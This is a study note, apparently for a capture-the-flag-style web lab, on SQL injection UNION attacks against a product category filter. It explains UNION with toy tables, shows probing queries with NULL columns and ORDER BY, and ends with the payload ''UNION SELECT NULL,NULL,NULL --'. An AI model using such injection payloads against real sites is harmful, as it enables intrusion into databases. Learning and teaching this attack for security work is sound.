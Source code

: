 #+title: SQL injection UNION attack, determining the number of columns returned by the query


* About
sql injection into product ~category~ filter

** End Goal
use sql injection ~UNION~ attack to determine the number of columns returned by the query

* UNION in sql
~UNION~ is used to combine the result-set of two or more ~SELECT~ statements

+ users
+-----+-----+-----+-----+-----+
|  username  |   password     |
+-----+-----+-----+-----+-----+
|  admin     |   admin        |
+-----+-----+-----+-----+-----+
|  smith     |   pass12345    |
+-----+-----+-----+-----+-----+


+ product
+------------+------------+
|  itemName  |    price   |
+------------+------------+
|  pen       |    10      |
+------------+------------+
|  paper     |    20      |
+------------+------------+

** Sample Query
#+begin_src sql
SELECT username, password FROM users
#+end_src

** output

+-----+-----+-----+-----+-----+
|  admin     |   admin        |
+-----+-----+-----+-----+-----+
|  smith     |   pass12345    |
+-----+-----+-----+-----+-----+

** Query with UNION
#+begin_src sql
SELECT username, password FROM users UNION SELECT itemName,price FROM product
#+end_src

** output

+-----+-----+-----+-----+-----+
|  admin     |   admin        |
+-----+-----+-----+-----+-----+
|  smith     |   pass12345    |
+-----+-----+-----+-----+-----+
|   pen      |    10          |
+-----+-----+-----+-----+-----+
|   paper    |    20          |
+-----+-----+-----+-----+-----+

** Some rule for UNION to work

+ Every ~SELECT~ statement within ~UNION~ must have the same number of columns
+ Same data types in columns
+ Same order in the columns in every ~SELECT~ statement

* Figure out
We have to figure out the correct number of columns first

** way 1
~dummy query~
#+begin_src sql
SELECT something FROM users UNION SELECT NULL
#+end_src
~error => incorrect number of columns~
users table has two columns

#+begin_src sql
SELECT something FROM users UNION SELECT NULL,NULL
#+end_src
~200 response code => correct number columns~

** way 2
#+begin_src sql
SELECT something FROM users order by 2
#+end_src

* Solution
#+begin_src sql
'UNION SELECT NULL,NULL,NULL --
#+end_src
